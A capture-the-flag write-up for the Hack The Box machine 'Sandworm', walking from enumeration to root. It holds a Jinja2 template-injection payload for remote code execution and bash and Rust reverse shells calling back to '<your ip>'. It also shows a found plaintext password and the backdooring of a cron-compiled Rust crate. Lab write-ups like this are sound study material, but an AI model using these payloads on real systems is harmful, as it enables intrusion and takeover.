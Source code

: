 # Sandworm

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/Sandworm
- **Difficulty:** Medium
- **OS:** Linux

## Enumeration

### Port & Service Enumeration


<details>
<summary>masscan</summary>

```
sudo masscan -p1-65535,U:1-65535 --rate=1000 -e tun0 10.10.11.218

Discovered open port 443/tcp on 10.10.11.218
Discovered open port 22/tcp on 10.10.11.218
Discovered open port 80/tcp on 10.10.11.218
```
</details>

<details>
<summary>nmap</summary>

```
nmap -sC -sV 10.10.11.218

22/tcp  open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://ssa.htb/
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-title: Secret Spy Agency | Secret Security Service
|_http-server-header: nginx/1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=SSA/organizationName=Secret Spy Agency/stateOrProvinceName=Classified/countryName=SA
| Not valid before: 2023-05-04T18:03:25
|_Not valid after:  2050-09-19T18:03:25
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

### Web Enumeration

<details>
<summary>gobuster dir</summary>

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'https://ssa.htb/' --no-tls-validation

/contact              (Status: 200) [Size: 3543]
/about                (Status: 200) [Size: 5584]
/login                (Status: 200) [Size: 4392]
/view                 (Status: 302) [Size: 225] [--> /login?next=%2Fview]
/admin                (Status: 302) [Size: 227] [--> /login?next=%2Fadmin]
/guide                (Status: 200) [Size: 9043]
/pgp                  (Status: 200) [Size: 3187]
/logout               (Status: 302) [Size: 229] [--> /login?next=%2Flogout]
/process              (Status: 405) [Size: 153]
```
</details>

## Foothold

### Web → `atlas` *(Firejail)*

#### Searching for Vulnerabilities

- the footer of the page says "Powered by Flask"
- the `/guide`-page has a section to verify signed PGP-messages
- when generating a new PGP keypair using `gpg --full-generate-key`, we can enter a name, an email-address and a comment; this information is displayed in a pop-up after successful verification by the site
- the output is not escaped, therefore a **Jinja2 template injection** is possible
    - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2
    - https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#rce-escaping

#### Exploitation

1. Generate a GPG keypair using `gpg --full-generate-key`, set the name to the following value:
    ```py
    {{''.__class__.mro()[-1].__subclasses__()[439](request.form.input,shell=True,stdout=-1).communicate()[0].strip()}}
    ```
    - `‘'.__class__.mro()[-1]` gives access to `<class 'object'>`, 
    - subclass 439 is `<class 'subprocess.Popen'>`, which allows us to do a RCE
    - `request.form.input` gives us access to the POST parameter `input` of the request
    - → the value of the POST parameter will be executed

2. Export the public key and enter it on the `/guide`-page in the verification form:
    ```
    gpg --armor --export <email> > mykey.gpg
    ```
    - `<email>` is the email that was specified during key generation

3. Sign any message using the generated keypair and enter it on the website:
    ```
    gpg --armor --clear-sign -u <email> -o <output file> <message>
    ```

4. Start a reverse shell listener using netcat:
    ```
    nc -lvnp 9002
    ```

5. Verify the signed message using the form, but intercept the request using burpsuite. Add the POST parameter `input` with the url-encoded payload for a reverse shell:
    ```bash
    bash -c '/bin/sh -i >& /dev/tcp/<your ip>/9002 0>&1'
    # url-encoded as a POST paramter:
    &input=%62%61%73%68%20%2d%63%20%27...
    ```

6. You should now have reverse shell access for the user `atlas`.
    - available commands very limited, hardly any write permissions
    - `cat /proc/1/cgroup` shows that we are in a [Firejail](https://github.com/netblue30/firejail) environment


## Lateral Movement

### `atlas` → `silentobserver` 🚩

#### Searching for Vulnerabilities

- `/etc/passwd` shows, that there is another user `silentobserver` with a home directory

#### Exploitation

1. `/home/atlas/.config/httpie/sessions/localhost_5000/admin.json` contains credentials for user `silentobserver`:
    ```json
    "auth": {
            "password": "quietLiketheWind22",
            "type": null,
            "username": "silentobserver"
        },
    ```

2. With these credentials, an SSH connection is possible for the user `silentobserver`, who has the user flag in his home directory 🚩
    - user is still in `jailer` group


### `silentobserver` → `atlas` *(unrestricted)*

#### Searching for Vulnerabilities

- the `/opt/tipnet/target/debug/tipnet` binary has the SUID bit set for user `atlas`
- the source code for `tipnet` can be found at `/opt/tipnet/src/main.rs`
- `main.rs` shows, that crate `/opt/crates/logger/src/logger.rs` gets imported
- `silentobserver` has write access to `logger.rs`
- there is a cron job running, which periodically compiles and runs `tipnet`
 
#### Exploitation

1. Edit `/opt/crates/logger/src/logger.rs` and insert the code for a reverse shell
    - https://stackoverflow.com/questions/48958814/what-is-the-rust-equivalent-of-a-reverse-shell-script-written-in-python
    - <details>
        <summary>modified logger.rs</summary>
        
        ```rust
        extern crate chrono;

        use std::fs::OpenOptions;
        use std::io::Write;
        use chrono::prelude::*;
        use std::net::TcpStream;
        use std::os::unix::io::{AsRawFd, FromRawFd};
        use std::process::{Command, Stdio};

        pub fn log(user: &str, query: &str, justification: &str) {
            let s = TcpStream::connect("<your ip>:9002").unwrap();
            let fd = s.as_raw_fd();
            Command::new("/bin/sh")
                .arg("-i")
                .stdin(unsafe { Stdio::from_raw_fd(fd) })
                .stdout(unsafe { Stdio::from_raw_fd(fd) })
                .stderr(unsafe { Stdio::from_raw_fd(fd) })
                .spawn()
                .unwrap()
                .wait()
                .unwrap();

            let now = Local::now();
            let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
            let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

            let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
                Ok(file) => file,
                Err(e) => {
                    println!("Error opening log file: {}", e);
                    return;
                }
            };

            if let Err(e) = file.write_all(log_message.as_bytes()) {
                println!("Error writing to log file: {}", e);
            }
        }
        ```
        
        </details>


2. Start a reverse shell listener using netcat:
    ```
    nc -lvnp 9002
    ```

3. After a while, we get reverse shell access for `atlas` in an unrestricted environment.

## Privilege Escalation

### `atlas` → `root` 🏁

#### Searching for Vulnerabilities

- An [exploit](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25) exists for    Firejail 0.9.68, which can be used for privilege escalation

#### Exploitation

1. Open a second reverse shell for `atlas` like explained above.
2. Download the [exploit](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25) on the target machine, e.g. using an python http server and wget.
3. Run the exploit using `chmod +x exploit.py && python3 exploit.py`.
4. In the second reverse shell, first run `firejail --join=<id>` *(the exploit will tell you the exact command)*, then `su -`.
5. We now have shell access for `root` and can claim the root flag! 🏁

